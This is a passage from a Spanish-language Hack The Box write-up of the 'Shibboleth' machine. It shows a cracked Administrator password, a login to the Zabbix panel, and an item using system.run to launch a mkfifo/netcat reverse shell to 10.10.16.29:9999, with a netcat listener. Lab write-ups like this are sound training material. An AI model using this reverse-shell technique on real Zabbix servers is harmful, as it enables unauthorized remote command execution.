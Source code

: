 ```console
1g 0:00:00:10 DONE (2022-01-30 08:21) 0.09587g/s 710025p/s 710025c/s 710025C/s iluve.p..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Tenemos la contraseña del usuario **`Administrator`**: **`ilovepumkinpie1`** y ya podemos acceder al panel **`Zabbix`**

![Logged](/assets/images/hackthebox/machines/shibboleth/logged.png)

Si nos vamos hasta **`Configuration`** podemos ver un apartado **`Discovery`**, y dentro tenemos definida la red local que está desactivada por lo que vamos a activarla. La seleccionamos y le damos al botón **`Enable`**.

![LAN](/assets/images/hackthebox/machines/shibboleth/lan.png)

Tenemos que lograr llegar hasta este recurso, si os fijáis en la captura anterior hace mención a [Zabbix Agent](https://www.zabbix.com/zabbix_agent).
Lo interesante de esto es que si leemos la [documentación](https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent) vemos que contiene un campo con la opción **`system.run`**,
que nos permite ejecutar comandos a nivel de sistema:

![SystemRun](/assets/images/hackthebox/machines/shibboleth/systemrun.png)

Será aquí donde metamos nuestra shell inversa, así que vamos a ello. Primero volvemos a **`Configuration`**, aquí vemos el host y varios apartados relativos al mismo (Applications, Items, Triggers, etc),
en nuesto caso nos interesa **`Items`**, le damos click y creamos un nuevo item dándole al botón superior derecho **`Create item`**.

![CreateItem](/assets/images/hackthebox/machines/shibboleth/createitem.png)

En el boton Select elegimos de la lista desplegable la opción **`system.run`**, esta consta de dos opciones:
{% raw %}
~~~html
system.run[command,<mode>]
~~~
{% endraw %}

Tenemos dos posibles modos, **`wait`** y **`nowait`**, pero hay que tener en cuenta que la primera provoca que la conexión no sea estable,
así que elegimos la segunda y nos quedará de esta forma nuestro comando:

{% raw %}
~~~html
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.29 9999 >/tmp/f,nowait]
~~~
{% endraw %}

Ahora nos ponemos en escucha con **`nc -nlvp 9999`** y finalmente le damos al botón **`Test`** y **`Get value`** para obtener nuestra shell:
